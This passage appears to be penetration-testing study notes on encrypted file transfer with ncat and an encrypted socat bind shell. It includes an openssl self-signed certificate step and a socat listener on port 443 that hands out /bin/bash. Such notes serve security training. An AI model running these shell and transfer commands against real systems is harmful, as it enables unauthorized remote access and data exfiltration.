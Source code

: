 ```
ncat -nvlp port --ssl > out-file
```

&#x20;__ Then connect to the listener from the attacking machine with:

```
ncat -nv target-ip port --ssl < file-to-send
```

### Socat Encrypted

**SSL**

```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```

* req + x509 = create self-signed certificates
* req = initiate a new certificate signing request
* \-newkey = generate a private key
* rsa:2048 = RSA with 2048 bits key length
* \-nodes = store without passphrase (no encryption)
* \-keyout = save the key to a file
* \-x509 = output self-signed certificate, not a certificate request
* \-days = period of days that are valid
* \-out = save the certificate to a file

**Convert:**

```
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

**Create Encrypted Listener:**

_Linux_

```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

* OPENSSL-LISTEN = create a listener
* cert = certificate file
* verify = disable SSL verification
* fork = spawn a child process once the connection is made

**Connect:**

_Windows_

```
socat - OPENSSL:IP:PORT,verify=0
```

* \- = transfer data between STDIO
* OPENSSL = establish SSL connection
* verify=0 = disable SSL verification
